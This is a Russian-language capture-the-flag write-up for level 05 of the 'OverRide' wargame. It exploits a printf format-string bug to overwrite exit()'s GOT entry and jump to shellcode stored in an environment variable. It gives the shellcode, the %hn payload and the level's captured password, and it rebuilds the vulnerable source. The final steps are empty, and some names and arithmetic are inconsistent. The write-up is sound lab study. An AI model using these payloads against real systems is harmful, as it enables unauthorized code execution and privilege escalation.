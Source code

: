 # LEVEL 05

## Команды и ресурсы
gdb

## Уязвимость
printf format string

## Решение
1. Пробуем запустить.
Пользователь вводит строку,которая затем выводится на экран, при этом заглавные латинские буквы заменяются на маленькие.
Переполнения на первый взгляд не возникает.
Обращаем внимание, что канарейка, NX и другие защиты отсутствуют.

2. Смотрим в отладчике. Детально [тут](resources/disas.md)
Итак, программа считывает ввод пользователя с помощью fgets(buffer, 100, stdin), затем приводит буквы к нижнему регистру, 
после чего выводит на печать строку с помощью незащищенного printf(buffer). После чего вызывается exit()

3. Идея - использовать уязвимость форматной строки и перезаписать адрес exit() на адрес шелл-кода, который мы сохраним в переменной окружения.
4. Определим адрес exit() в GOT Table - 0x80497e0
```asm
(gdb) disas exit
Dump of assembler code for function exit@plt:
   0x08048370 <+0>:	jmp    *0x80497e0
   0x08048376 <+6>:	push   $0x18
   0x0804837b <+11>:	jmp    0x8048330
End of assembler dump.

```
5. Сгенерируем необходимый шелл-код и сохраним его в переменную окружения:
```
"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"
```
```bash
export SHELLCODE=`python -c 'print("\x90" * 100 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80")'`
```

6. Определим адрес переменной окружения с помощью небольшой программы:
```bash
 scp -P 4242 ~/42/override/level05/resources/getenv.c level05@192.168.56.129:/tmp/getenv.c
```

```bash
level05@OverRide:~$ gcc /tmp/getenv.c -m32 -o /tmp/getenv
level05@OverRide:~$ /tmp/getenv
0xffffd886
```
6. Определим позицию нашего буфера в аргументах printf используя спецификатор %x выводящий на печать память
```bash
level05@OverRide:~$ ./level05
AAAA %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x
aaaa 64 f7fcfac0 f7ec3af9 ffffd6cf ffffd6ce 0 ffffffff ffffd754 f7fdb000 61616161 20782520 25207825 78252078 20782520 25207825 78252078

```
61616161 - находится на 10 позиции

7. Сгенерируем итоговую строку для взлома используя модификатор %n:

Сложность - адрес нашей переменной окружения - ffffd886 (4294957290) превышает maxint, поэтому нам придется разбить адрес на 2 части
и поменять местами, так как у нас little endian:
- d886 - 55530 (55430 - 8 (количество байт, которые будут находиться в начале буфера в виде двух адресов) = 55422)
- ffff - 65535 (65535 - 55430 = 10105)

[//]: # (- d8ea - 55530 &#40;55530 - 8 &#40;количество байт, которые будут находиться в начале буфера в виде двух адресов&#41; = 55522&#41;)

[//]: # (- ffff - 65535 &#40;65535 - 55530 = 10005&#41;)

количество символов мы запишем по позициям 10 и 11 аргументов printf (используем h для уполовинивания)

наш payload:
```
"2 первых байта адреса exit()" + "2 последних байта адреса exit() + "%55422d" + "%10$hn" + "%10105d" + "%11$hn"
```

```
(python -c 'print("\xe0\x97\x04\x08"+"\xe2\x97\x04\x08"+"%55422d"+"%10$hn"+"%10105d"+"%11$hn")';cat) | ./level05
```


8. Протестируем:
```bash
whoami
level06
cat /home/users/level06/.pass
h4GtNnaMs2kZFN92ymTr2DcJHAzMfzLW25Ep59mq

```


## Воссоздадим бинарный файл
```c
#include <stdio.h>

int		main(void)
{
    int	a = 0;
    char	buf[100];

    fgets(buf, 100, stdin);

    while (a < strlen(buf))
    {
        if (buf[a] > 64 && buf[a] <= 90)
            buf[a] ^= 0x20;
        ++a;
    }
    printf(buf);
    exit(0);
}
```


## Переносим на виртуальную машину, компилируем, проверяем
1. Копируем на виртуальную машину
``` bash
 scp -P 4242 ~/42/override/level05/source.c level05@192.168.56.129:/tmp/source_level05.c
 ```

2. заходим под level02 на виртуальную машину
```bash
su level06
```

3. Компилируем

```bash
cd /tmp
gcc -fno-stack-protector -z norelro -z execstack -m32 source_level05.c -o level05
```
```bash
level06@OverRide:/tmp$ checksec --file level05


```

4. Меняем права
```bash
level06@OverRide:/tmp$ chmod u+s level01; chmod +wx level01; chmod +s level01;

```
5. Возвращаемся в юзера level05 и Запускаем
```bash
level06@OverRide:/tmp$ exit


```
6. Проверяем уязвимость
```bash



```